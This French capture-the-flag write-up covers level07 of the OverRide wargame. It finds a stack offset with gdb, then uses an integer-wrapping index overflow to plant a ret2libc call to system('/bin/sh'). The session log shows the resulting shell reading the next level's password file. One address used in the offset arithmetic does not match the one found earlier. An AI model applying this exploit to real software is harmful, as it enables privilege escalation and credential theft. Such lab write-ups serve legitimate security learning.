 # level07

Ici l'idée est d'overflow le buffer du main pour stocker un appel à system, vu qu'on ne peut stocker que des int, il faut stocker les adresses sous forme d'int (todo expliquer comment on a fait ça)

En regardant le code décompilé par reko, on comprend que le parametre de `read_number` est l'array dans laquelle nos nombre sont stockés, on doit donc trouver l'offset entre l'adresse de ce buffer et `eip`
```C
word32 read_number(uint32 dwArg04[])
{
    printf(" Index: ");
    Eq_118 eax_14 = get_unum();
    printf(" Number at data[%u] is %u\n", eax_14, dwArg04[eax_14]);
    return 0x00;
}```

on met donc un breakpoint sur l'appel a `read_number`
```=> 0x0804892b <+520>:   call   0x80486d7 <read_number>
```

On voit que son paramètre est placé sur `eax` juste avant l'appel
```   0x08048928 <+517>:   mov    %eax,(%esp)``` 
on récupere donc l'adresse de `eax`
```(gdb) x $eax
0xffffd544:     0x00000000
```

puis on recupere l'adresse de `eip` avec la commande `info frame`
```(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
  ```

on a donc l'adresse du buffer: `0xffffd544`
et l'adresse de `eip`: `0xffffd70c`

`0xffffd70c` - `0xffffd520` = `0x1EC`, donc `456` en décimal.
Vu que notre buffer contient des `uint`, on divise par `4` (taille d'un uint) et on obtient l'offset:
`456` / `4` = `114`

On va donc mettre notre appel à `system` à l'index `114` en utilisant un overflow avec le nombre `1073741938`, et l'argument `/bin/sh` à l'index `116` (l'index `115` contenant la return address de system si on suit la logique du [tuto](<https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc>), mais on s'en fout apparemment, j'ai essayé de mettre plusieurs trucs différent ça change rien)

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$```

